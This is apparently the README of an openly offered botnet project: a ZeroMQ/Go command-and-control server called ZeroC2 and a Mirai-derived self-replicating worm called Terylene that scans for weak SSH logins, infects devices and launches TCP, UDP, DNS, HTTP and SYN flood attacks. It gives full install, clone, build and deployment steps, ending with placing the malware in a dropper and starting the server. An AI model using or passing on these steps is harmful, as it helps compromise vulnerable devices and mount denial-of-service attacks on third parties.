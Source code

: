 ![ZeroC2](https://github.com/BishopFox/sliver/assets/93959737/37af624e-9935-40d2-b2ff-630c53e3ec21)





## ZeroMq Description
Zeromq is a very low-level fast asynchronous messaging library that can handle large amounts of connections and requests under seconds. It was able to get a transfer rate of 10,000 messages per 15 milliseconds, or between 66,000 and 70,000 messages/s under low-latency and it was able to beat rabbitmq , kafka and many other network libraries. Additionally , zeromq lightweight and low level library made in C++ uses as little resources as possible while maintaining the best performance


[ZeroMq benchmark](http://wiki.zeromq.org/area:results "ZeroMq benchmark")


## ZeroMq + Golang
ZeroMQ and Golang is powerful combination for building distributed and scalable systems that can handle lots of requests. ZeroMQ is a messaging library that provides high-performance, asynchronous communication between applications, along with golang's simplicity, efficiency, and built-in support for concurrent and parallel programming, it makes the C2 very flexible, easy to manage, efficient at resource utilization and most importantly...fast


## ZeroC2
ZeroC2 is a ZMQ golang C2 server designed for botnet traffic control and carrying out ddos attacks , ZeroC2 accepts connection for terylene. ZeroC2 has heartbeating sensor and it is able to transfer and mitigate terylene connection.

## Terylene
Terylene is a modified version of the previous mirai botnet using golang instead of C, it has improved feature of the previous version of mirai and able to carry out concurrent tasks. Terylene is self replicating and able to scan the network , identify weak ssh logins, and attempts to inject itself into the vulnerable devices directly, Instead of sending the vulnerable Device to the C2 for the C2 to infect.  Terylene is also able to carry out more Advanced ddos attacks that are adaptable with today's ddos security, which includes builtin TCP, UDP, DNS, HTTP, SYN and Modified UDP attacks.


# Difference between Terylene and mirai botnet

|   | Terylene                        | Mirai botnet               |
|---|---------------------------------|----------------------------|
|   | faster worm                     | slower worm                |
|   | able to mitigate                | unable to mitigate         |
|   | stream socket attacks           | raw socket attacks         |
|   | targets almost all linux distro | targets all linux distro   |
|   | smarter Ddos techniques         | old school ddos techniques |



# Debian based Setup
> Ubuntu , Debian , Kali, Parrot OS

### Install ZMQ package using APT
```
sudo apt update
sudo apt upgrade
sudo apt-get install libzmq3-dev
```
### Install golang (if you havent)
```
apt-get install golang-go
```

# Arch based setup
> Arch , BlackArch

### Install ZMQ package using pacman

```
sudo pacman -Sy
sudo pacman -S zeromq
```

### Install golang using pacman(if you havent)
```
sudo pacman -S go
```


# Red Hat based setup
> CentOs, Rocky , Fedora
### Install ZMQ package using yum

```
sudo yum update
sudo dnf makecache --refresh
sudo yum install zeromq
```

### Install Golang using yum (if you havent)

```
yum install golang
```

# ZeroC2 and terylene setup

### Clone the repo
```
git clone https://github.com/polymaster3313/terylene.git
```

### setup the dependencies
```
cd terylene
go mod init terylene
go mod tidy
```

### edit the configs in client.go and server.go respectively

```
cd client
nano client.go
cd ..
cd server
nano server.go
cd ..
```

### build terylene and ZeroC2

```
cd server
go build -ldflags="-s -w" server.go
cd ..
cd client
go build -ldflags="-s -w" terylene.go
```

### drop the terylene malware into the dropper

```
mv terylene <path to the server dropper folder
```

### start the zeroC2

```
./server
```
//Enjoy

